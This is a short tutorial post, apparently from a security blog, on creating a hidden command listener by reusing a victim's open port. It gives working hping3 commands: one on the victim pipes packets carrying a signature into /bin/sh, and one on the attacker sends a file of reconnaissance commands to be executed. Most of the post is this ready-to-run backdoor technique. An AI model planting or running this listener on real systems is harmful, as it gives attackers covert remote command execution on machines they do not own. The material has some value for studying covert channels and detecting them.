 ```yaml
---
title:  "Hidden Command Listener"
categories: [Steganography]
---
```


![Logo](/assets/images/backdoor.jpg)

## Create a hidden command listener by reusing an open port

### Scenario:
* **Box A** - Victim, running a network service on port 8834. We'll reuse this port!
* **Box B** - Attacker host behind NAT. Will transmit commands to the listener waiting on the victim.

This is similar to a reverse shell from box A to box B, except that B will need another way to view results of the commands executed on A:

**A (Victim's box)**:
```bash
$ sudo hping3 --listen SecretSignature -I vboxnet0 -p 8834 | /bin/sh
```

Explanation for the parameters:
```
--listen  - Listen mode. Waits for packets containing the signature and dump the data from signature to the end of the packet 
-I        - Interface to listen on
-p        - Listening port
```

This will intercept packets and dump the content after a matching signature. Commands will be passed to the shell to be executed. Another trick would be needed to view the output of the commands though.

**B (Attacker's box**: 
```bash
$ sudo hping3 --count 1 --data 200 --file commands.txt --sign SecretSignature 192.168.56.1 -V -p 8834
```

Explanation for the parameters:
```
--count 1   - Stop after sending 1 packet
--data 200  - Set packet body size in bytes
--file      - Fill packet with data from file
--sign      - Fill first a signature in the packet
-V          - Verbose mode
-p          - Destination port
```

The content of the commands file:
```bash
$ cat commands.txt
echo 123 > hacked.txt
whoami > log.txt
uname -a >> log.txt
pwd >> log.txt
ls -al >> log.txt
ifconfig -a >> log.txt

```

**Note**: The new line at the end is important to get the last command executed !

The commands should have been executed on victim's machine (A) and results saved in the corresponding log file.
